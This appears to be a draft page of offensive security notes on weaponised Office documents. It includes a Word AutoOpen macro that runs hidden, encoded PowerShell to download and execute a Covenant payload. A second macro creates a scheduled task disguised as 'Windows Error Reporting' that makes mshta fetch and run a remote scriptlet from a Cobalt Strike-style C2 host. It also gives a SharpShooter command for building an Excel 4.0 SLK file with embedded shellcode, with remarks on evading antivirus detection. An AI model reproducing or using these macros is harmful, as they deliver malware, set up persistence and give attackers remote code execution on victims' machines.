 ```yaml
---
title: "Malicious Documents"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

reference: https://blog.f-secure.com/dechaining-macros-and-evading-edr/

#### Word Macro's
##### Basic Office Macro using PowerShell
The example below shows a basic Microsoft Office Word macro, downloading and executing a covenant payload.
```vb
Sub AutoOpen()    
        Call Shell("powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgA5AC8AZgBpAGcAYQAnACkA")
End Sub
```

##### Creating a sheduled task using a Macro
The example code below shows the VB code that creates a sheduled task, which in turn downloads and executes a malicious SCT file using MSHTA. 
```vb
Sub Auto_open()
Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://cobaltstrike.c2/updates/microsoftftp.jpg').Exec();close();"" /mo 15 /F")
End Sub
```
***

#### Malicious HTA ToDo
Find good (working) examples

#### Excel 4.0 Macro
Excel 4.0 Marcos are a depricated feature within Excel. Even though functionality (and documentation) might be limited, this is still a very powerfull way of executing code. Because this form of Macro's is so old, mant modern AV solutions have trouble tracking and detecting these macros. A big advantage of these Macros are the fact that it doesn't spawn a (child) process, which defeats parent/child analysis.
The SharShooter framework from MDSec has the ability to generate slk files (Excel files with 4.0 Macros), while embedding your own shellcode. The example below shows the command needed to generate a SLK file with a msfvenom generated shellcode file.
```
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test
```
You might want to put some effor into making the Excel file look nice :)




#### VBA Stomping (Work Out)
reference: https://medium.com/walmartlabs/vba-stomping-advanced-maldoc-techniques-612c484ab278



